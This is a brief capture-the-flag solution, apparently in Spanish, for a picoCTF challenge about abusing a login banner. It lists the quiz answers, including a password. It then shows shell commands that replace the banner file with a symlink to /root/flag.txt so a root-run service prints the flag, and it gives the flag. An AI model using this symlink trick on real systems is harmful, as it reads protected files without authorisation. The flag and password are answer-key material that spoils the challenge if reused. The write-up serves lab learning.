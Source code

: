 Can you abuse the banner?
Additional details will be available after launching your challenge instance.

---------------
#Solución 
``` bash
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C                           
┌──(edgar㉿vbox)-[~]
└─$ nc tethys.picoctf.net 51634
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}
```
